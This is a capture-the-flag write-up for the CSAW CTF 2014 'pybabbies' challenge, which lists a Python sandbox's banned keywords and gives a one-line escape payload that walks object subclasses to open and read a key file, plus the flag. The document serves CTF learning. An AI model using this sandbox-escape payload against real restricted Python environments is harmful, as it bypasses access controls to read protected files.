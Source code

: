 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely\_not\_intro\_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw-2014-pybabbies.html>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://www.incertia.net/blog/csaw-ctf-quals-2014-pybabies/>
* <http://bruce30262.logdown.com/posts/234935-csaw-ctf-2014-exploitation-200-pybabbies>
* [Korean](http://hackability.kr/entry/2014CSAWCTF-Pwnable-500-Xorcise)
